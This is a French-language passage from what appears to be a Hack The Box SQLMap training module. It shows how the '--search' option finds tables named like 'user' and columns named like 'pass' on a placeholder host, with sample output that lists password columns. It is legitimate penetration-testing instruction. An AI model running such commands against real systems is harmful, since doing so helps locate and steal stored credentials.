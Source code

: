* * * * *

Recherche de données
--------------------

Lorsqu'il s'agit de structures de bases de données complexes avec de nombreuses tables et colonnes, nous pouvons rechercher des bases de données, des tables et des colonnes d'intérêt en utilisant l' `--search`option. Cette option nous permet de rechercher des noms d'identifiants en utilisant l' `LIKE`opérateur. Par exemple, si nous recherchons tous les noms de tables contenant le mot-clé `user`, nous pouvons exécuter SQLMap comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n]
...SNIP...

```

Dans l'exemple ci-dessus, nous pouvons immédiatement repérer quelques cibles de récupération de données intéressantes en fonction de ces résultats de recherche. Nous aurions également pu essayer de rechercher tous les noms de colonnes en fonction d'un mot-clé spécifique (par exemple`pass` ):

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
```